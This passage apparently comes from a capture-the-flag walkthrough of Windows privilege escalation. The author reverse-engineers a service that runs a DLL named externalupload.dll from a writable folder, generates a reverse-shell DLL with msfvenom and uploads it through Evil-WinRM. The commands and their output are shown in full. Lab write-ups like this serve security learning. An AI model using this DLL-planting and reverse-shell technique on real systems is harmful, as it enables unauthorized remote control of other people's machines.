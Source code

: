 To get here, there are a series of checks. So the loop goes over each file in
`Libraries`. If it has the `.dll` extension, then it finds the first “e”
(`memchr` call at 1400004cb5) and compares the string from that point to
“externalupload” (`memcmp` at 140004ce0). If that matches, then it reaches the
`CreateProcessW` call (at 140005387):

![image-20240308115459179](../img/image-20240308115459179.png)

The command would be `cmd.exe /c ReportManagementHelper
Libraries\externalupload.dll`.

### Execution

#### Strategy

I don’t have access to `ReportManagementHelper.exe`, but it seems if there’s a
`externalupload.dll` in `Libraries` that it will be passed to that executable
when it is called, which suggests it will be loaded. Since I can write to
`Libraries`, I’ll generate a malicious DLL that creates a reverse shell,
upload it, and then connect and trigger it.

#### Generate Payload

I haven’t seen any AV running here, so the simplest idea is to generate a DLL
payload using `msfvenom` from Metasploit.

    
    
    oxdf@hacky$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=443 -f dll -o externalupload.dll -a x64 --platform windows
    No encoder specified, outputting raw payload
    Payload size: 460 bytes
    Final size of dll file: 9216 bytes
    Saved as: externalupload.dll
    

I’m using an unstaged payload so I can catch it in `nc`. If I had used
`windows/x64/shell/reverse/tcp`, that would create one I had to catch in
Metasploit.

I’ll upload this to the `Libraries` directory:

    
    
    *Evil-WinRM* PS C:\Program Files\ReportManagement\Libraries> upload externalupload.dll
    Info: Uploading externalupload.dll to C:\Program Files\ReportManagement\Libraries\externalupload.dll
                                                                 
    Data: 12288 bytes of 12288 bytes copied
    
    Info: Upload successful!
    
    *Evil-WinRM* PS C:\Program Files\ReportManagement\Libraries> ls
    